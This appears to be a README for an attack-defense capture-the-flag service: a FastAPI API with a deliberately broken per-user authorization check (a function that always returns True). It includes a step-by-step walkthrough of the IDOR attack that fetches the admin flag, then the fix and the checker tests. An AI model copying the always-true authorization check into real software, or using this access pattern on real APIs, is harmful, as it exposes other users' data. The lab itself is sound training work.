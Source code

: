 # Service definition:
We have a Docker container that includes an API built with FastAPI, which has access to a PostgreSQL database containing information about the app's users.  

The attacker has information about the API and must use that information to obtain the flag located in the database and let them in his T-Submission machine. 

# Service implementation:


The Docker container includes a FastAPI instance that provides access to a database containing two rows of user information:

- First tuple contains information about the `admin` user, with a random password and a valid flag stored in the `flag` column.  
- The other tuple contains information about the 'user' account, with a password known to attackers: `pasahitz_sekretua`, but it does not contain a valid flag.  

The database cannot be manipulated. In FastAPI, models, schemas, and routes cannot be modified. However, the code executed by the routes can be manipulated, as long as the core logic (login + fetching user data) remains intact.

If any of the above points are not met, SLA points will be deducted. 
 
-Flags: 
    The flags are stored in the database in the `flag` column of the `admin` user's row.

# About exploting:
- The attacker must obtain the access token using the provided credentials and the corresponding API call: `http://{ip}:8008/api/v1/login`. Afterward, they will use the access token to make a request to the API that retrieves user information: `http://{ip}:8008/api/v1/user/user`. The response indicates that the flag is in the `admin` user, so the attacker will then make another request to `http://{ip}:8008/api/v1/user/admin` and obtain the flag.

- The defender needs to modify the behavior of the API call `http://{ip}:8008/api/v1/user/{username}` so that it is only valid if the `username` matches the user in the token.
  
  Attack performed by Team1 against Team 4. 
  Post call http://10.0.0.104:8008/api/v1/login with {'username': 'user', 'password': 'pasahitz_sekretua'} data.
      We obtein access token. Response: {"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzM0MzQ3OTgxfQ.zRDWzF6reiVSZ9s8hju9Mif5JP66YYa4bNx8ztv2AkQ","token_type":"bearer"}
  Get call http://10.0.0.104:8008/api/v1/user/user with authorization header
      We obtein the response: 
      {
      "email": "user@tknika.eus",
      "username": "user",
      "id": 2,
      "flag": "No Flag for this user... Maybe for admin;)"
      }
  Get call http://10.0.0.104:8008/api/v1/user/admin with authorization header
      We obtein the response: 
      {
      "email": "admin@tknika.eus",
      "username": "admin",
      "id": 1,
      "flag": "(contains the valid flags)"
      }
  'ssh -i /home/urko/Deskargak/keyak/team2-sshkey root@10.0.1.1'
  nano /root/xxx.flag
    Paste copied flags. 

  Defense performed by Team4
    'ssh root@10.0.0.104'
    docker exec -it besteerabiltzailean /bin/bash
    change the file /app/app/service/user_service.py

        `def check_user_is_current_user(username: str, current_user: user_schema.User):
          return True`

        to

        `def check_user_is_current_user(username: str, current_user: user_schema.User):
          return username == current_user.email or username == current_user.username`
    
     

# Checker checks:
- Ports to reach dockers are open (WEB API:8008)
- APIs logic (login + fetching user data)
- Integrity of all FastAPI files except `/app/app/service/user_service.py`

Checks done: 
- TEAM 1. Stop the container: 'root@debian:~# docker stop besteerabiltzailean_web_1' It works OK, service's status becomes DOWN. 
- TEAM 2. Stop the container: 'root@debian:~# docker stop besteerabiltzailean_db_1' It works OK, service's status becomes FAULTY.
- TEAM 1. Change /app/app/router/user_route.py  file from 'besteerabiltzailean_web_1' docker. It works OK, service's status becomes FAULTY. 
- TEAM 2. Apply fix '/app/app/service/user_service.py' file from 'besteerabiltzailean_web_1' docker. It works OK, service's status doesn't change
- TEAM 1. Make a change that does not affect the logic of the app '/app/app/service/user_service.py' file from 'besteerabiltzailean_web_1' docker. It works OK, service's status doesn't change
 
# License notes
Parts from:
https://github.com/Tknika/ctf-gameserver-services


